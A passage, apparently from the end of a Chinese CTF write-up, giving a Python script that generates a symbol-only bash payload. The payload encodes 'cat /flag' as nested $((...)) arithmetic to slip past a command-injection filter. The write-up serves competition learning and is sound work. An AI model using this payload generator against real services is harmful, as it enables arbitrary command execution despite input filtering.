 ![img](assets/25-1024x563.png)

可以看到我们的payload其实也就替换了两个xx=$(())，所以如果大家还找到什么值为零的变量的话替换这两个即可。

利用脚本：

```
cmd='cat /flag'

payload='__=$(())&&___=$((++__))&&____=$((++___))&&_____=$(())&&${!_____}<<<${!_____}\\<\\<\\<\\$\\\''
for c in cmd:
        payload+=f'\\\\$((2#{bin(int(oct(ord(c))[2:]))[2:]}))'.replace('1','${__}').replace('2','${____}').replace('0','${_____}')

payload+='\\\''

print(payload)
```

## 后记

本质上还是参考了一些优秀师傅的思路，不过最后走出了一条属于自己的路还是挺开心的，各位大佬轻喷。





# 总结
